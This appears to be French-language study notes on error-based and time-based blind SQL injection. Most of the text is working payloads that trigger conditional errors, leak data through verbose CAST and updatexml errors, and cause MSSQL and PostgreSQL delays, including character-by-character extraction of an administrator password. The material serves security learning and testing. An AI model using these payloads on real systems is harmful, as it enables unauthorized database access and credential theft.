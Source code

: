 # Error-Based SQL injection

L’Error-Based SQLi est une technique d’injection SQL qui consiste à provoquer une erreur volontaire pour que le serveur affiche un message contenant des informations sensibles sur la base de données.



## Objectif :

- Obtenir des infos comme : nom de la base, noms de colonnes, versions, etc.
- Rendre visibles des vulnérabilités qui étaient invisibles.


## Deux types d’erreurs exploitées:

**1. Erreur conditionnelle (Blind Error-Based)**

**Exploiting blind SQL injection by triggering conditional errors**

On déclenche une erreur seulement si une condition est vraie.


```sql
' AND (SELECT CASE WHEN (username='admin') THEN 1/0 ELSE 1 END) -- 
```
- Si admin existe → division par zéro → erreur
- Sinon → pas d’erreur

```sql
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a 
-- No Error

xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a 
-- Error

'||(SELECT '')||'
'||(SELECT '' FROM dual)||'
-- No Error

'||(SELECT '' FROM not-a-real-table)||'
-- Error
```

Si on a une erreur, Cela démontre qu'il est possible de déclencher une erreur conditionnellement à la véracité d'une condition spécifique.

```sql
'||(SELECT '' FROM users WHERE ROWNUM = 1)||'
-- vérifier l'existence de la table users. Comme cette requête ne renvoie pas d'erreur, vous pouvez en déduire que cette table existe bel et bien.

'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- vérifier l'existence du nom d'utilisateur : administrator. Vérifiez que la condition est vraie (l'erreur est reçue), confirmant qu'il existe un utilisateur appelé administrator.

'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- déterminer le nombre de caractères du mot de passe de l'administrator. Cette condition doit être vraie, confirmant que le mot de passe comporte plus d'un caractère.

'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
-- confirmer que le premier caractère du mot de passe est a
```


**2. Erreur contenant les données (Direct Error**)

**Extracting sensitive data via verbose SQL error messages**

On peut inciter l'application à générer un message d'erreur contenant certaines données renvoyées par la requête. 

Cela transforme ainsi une vulnérabilité d'injection SQL, jusque-là aveugle, en une vulnérabilité visible.

On peut utiliser la fonction `CAST()` qui permet de convertir un type de données en un autre.

```sql
' AND CAST((SELECT 1) AS int)--
-- Vous obtenez maintenant une erreur différente indiquant qu'une ANDcondition doit être une expression booléenne.

' AND 1=CAST((SELECT 1) AS int)--
-- vous ne recevez plus d'erreur

' AND 1=CAST((SELECT username FROM users) AS int)--
-- récupère les noms d'utilisateur de la base de données

' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
-- renvoyer qu'une seule ligne

' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--

-- divulguer son mot de passe
```


```sql
' AND updatexml(null, concat(0x7e, (SELECT database()), 0x7e), null) -- 
```

- Affiche le nom de la base dans l’erreur.
- Utilisé pour extraire des données directement via les messages d’erreur.

**Exploiting blind SQL injection by triggering time delays**

Si l'application détecte les erreurs de base de données lors de l'exécution de la requête SQL et les gère correctement, la réponse de l'application ne sera pas modifiée. Cela signifie que la technique précédente d'induction d'erreurs conditionnelles ne fonctionnera pas.

Dans ce cas, il est souvent possible d'exploiter la vulnérabilité d'injection SQL aveugle en déclenchant des délais selon que la condition injectée est vraie ou fausse.

Cela permet de déterminer la véracité de la condition injectée en fonction du temps nécessaire à la réception de la réponse HTTP.

> Les techniques de déclenchement d'un délai sont spécifiques au type de base de données utilisé.


```sql
-- sur Microsoft SQL Server,
'; IF (1=2) WAITFOR DELAY '0:0:10'--
'; IF (1=1) WAITFOR DELAY '0:0:10'--

-- sur PostgreSQL
';SELECT CASE WHEN (1=2) THEN pg_sleep(10) ELSE pg_sleep(0) END--
';SELECT CASE WHEN (1=1) THEN pg_sleep(10) ELSE pg_sleep(0) END--

'||pg_sleep(10)--
```

- La première de ces entrées ne déclenche pas de délai, car la condition 1=2 est fausse.
- La deuxième entrée déclenche un délai de 10 secondes, car la condition 1=1 est vraie.

```sql
';SELECT CASE WHEN (username='administrator') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
-- délai de 10s si administrator existe

';SELECT CASE WHEN (username='administrator' AND LENGTH(password)>1) THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
-- délai de 10s, confirmant que le mot de passe comporte plus d'un caractère.

'; IF (SELECT COUNT(username) FROM users WHERE username = 'administrator' AND SUBSTRING(password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
';SELECT CASE WHEN (username='administrator' AND SUBSTRING(password,1,1)='a') THEN pg_sleep(10) ELSE pg_sleep(0) END FROM users--
-- délai de 10s, pour chaque caractere valide pour récupérer des données en testant un caractère à la fois cela teste le caractère à chaque position pour déterminer sa valeur.
```

